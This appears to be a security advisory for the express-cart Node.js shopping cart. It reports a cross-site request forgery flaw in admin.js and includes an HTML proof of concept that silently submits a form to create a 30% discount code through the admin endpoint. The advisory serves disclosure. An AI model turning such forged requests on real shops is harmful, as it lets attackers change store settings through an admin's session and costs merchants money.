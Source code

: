 # Overview

express-cart is a fully functional shopping cart built in Node.js (Express, MongoDB) with Stripe, PayPal and Authorize.net payments.

This package is vulnerable to Cross-Site Request Forgery (CSRF) through `admin.js`.

## Proof of Concept

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:1111/admin/settings/discount/create" method="POST">
      <input type="hidden" name="code" value="CSRF&#45;CODE&#45;DEMO" />
      <input type="hidden" name="type" value="percent" />
      <input type="hidden" name="value" value="30" />
      <input type="hidden" name="start" value="21&#47;02&#47;2020&#32;14&#58;32" />
      <input type="hidden" name="end" value="22&#47;02&#47;2020&#32;14&#58;32" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
